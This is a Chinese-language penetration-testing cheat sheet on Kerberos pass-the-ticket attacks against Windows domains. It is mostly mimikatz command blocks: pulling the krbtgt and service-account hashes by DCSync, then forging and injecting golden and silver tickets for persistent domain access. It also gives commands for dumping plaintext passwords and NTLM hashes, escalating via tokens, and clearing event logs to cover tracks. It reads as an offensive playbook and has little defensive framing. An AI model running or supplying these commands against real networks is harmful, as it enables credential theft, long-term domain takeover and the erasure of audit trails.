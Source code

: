 ```yaml
---
description: 适用于在获取目标域内最高权限后的权限维持 / 后渗透密码收集 / 基于Kerberos认证
---
```


# ✔️ 票据传递攻击 - Pass The Ticket

## 黄金票据传递攻击

### 先决条件

* 已获得了目标域内**krbtgt用户**的哈希值
* 已获得了目标域的SID值
* 目标域名
* 要伪造的域用户（高权限账户：域管理员）

### 工具

#### Impacket

* 几个常用脚本，按实际情况在该工具的/example目录中选择合适脚本：

<figure><img src="../../.gitbook/assets/1 (11).png" alt=""><figcaption></figcaption></figure>

#### mimikatz.exe

```powershell
mimikatz.exe
# 提取krbtgt账户的NTLM哈希值 (DCSync攻击常用)
lsadump::dcsync /domain:target.com /user:krbtgt
# 生成黄金票据
kerberos::golden /user:administrator /domain:target.com /sid:域SID /krbtgt:312343xxxxxxxxxxx345435565789 /id:500 /target:target.com /renewal:票据的有效时间 /ticket:golden_ticket.kirbi
# 导入
kerberos::ptt golden_ticket.kirbi
# 验证
kerberos::list
# 持久化：可将生成的票据保存下来，后续继续使用
```

{% hint style="info" %}
* 提取NTLM哈希——生成黄金票据——导入伪造的黄金票据——验证票据——持久化
* 黄金票据可访问全域资源
{% endhint %}

## 白银票据传递攻击

### 先决条件

* 已获得了目标域内**服务账户**的哈希值
* 已获得了目标域的SID值
* 目标域名
* 需要知道SPN
* 要伪造的某个特定的服务账户

### 工具

#### mimikatz.exe

```powershell
mimikatz.exe
# 提取服务账户的NTLM哈希
lsadump::dcsync /domain:target.com /user:服务账户名
# 生成白银票据
kerberos::golden /domain:target.com /sid:域SID /target:server.target.com /service:http /rc4:服务账户哈希 /user:administrator /id:用户RID /ptt
# 验证
kerberos::list
# 使用白银票据，例如访问共享目录
\\server.target.com\sharedfolder
# 有条件的持久化：只要服务账户的哈希没改就可以
```

{% hint style="info" %}
* 提取NTLM哈希——生成白银票据——验证票据——有条件的持久化
* 白银票据在本地使用，不与DC交互，因此比黄金票据攻击要隐蔽
* 是针对特定服务的TGS的攻击
{% endhint %}

## 常用命令

### mimikatz.exe

```powershell
# 提升权限
privilege::debug
# 列出系统上的所有票据并提取
sekurlsa::tickets /export
# 列出当前用户的 Kerberos 票据（TGT 和 TGS）
sekurlsa::tickets
# 提取当前用户凭证
sekurlsa::logonpasswords
# 提取当前系统中的明文密码
sekurlsa::wdigest
# 提取本地SAM数据库中的NTLM哈希
lsadump::sam
# 提取当前登录的域用户和本地用户的凭证
lsadump::lsa /patch
lsadump::lsa /inject
# 列出当前用户的所有令牌
token::list
# 在令牌里发现有高权限的账户后，提升权限
token::elevate
# 清除日志
event::clear
# 清除内存中的票据
kerberos::purge
# 

```

### 其他

```bash
# 查域SID
whoami /user
whoami /groups
```

{% hint style="info" %}
Kerberos协议是在位于**不受信任的网络中**的**受信任主机上**的**身份验证**协议，在域渗透的过程中主要是利用Kerberos票据来进行攻击，涉及黄金票据和白银票据传递，票据传递攻击本质上是冒充其他高权限用户。
{% endhint %}
